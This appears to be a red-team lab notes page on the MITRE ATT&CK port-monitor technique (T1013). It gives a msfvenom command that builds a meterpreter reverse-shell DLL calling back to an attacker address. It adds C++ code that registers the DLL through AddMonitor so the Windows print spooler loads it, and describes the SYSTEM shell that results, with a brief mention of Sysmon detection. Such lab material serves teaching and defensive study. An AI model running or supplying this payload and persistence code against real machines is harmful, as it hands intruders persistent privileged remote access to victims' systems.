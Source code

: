 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {    
    MONITOR_INFO_2 monitorInfo;
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("evilMonitor");
    TCHAR dll[12] = TEXT("evil64.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:

![](../../.gitbook/assets/monitor-loaddll.png)

![](../../.gitbook/assets/monitor-loaddll2.png)

which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:

![](../../.gitbook/assets/rundll-connect.png)

![](../../.gitbook/assets/monitor-shell-system.png)

The below confirms the procmon results explained above:

![](../../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../../.gitbook/assets/monitor-sysmon.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" caption="" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" caption="" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" caption="" %}

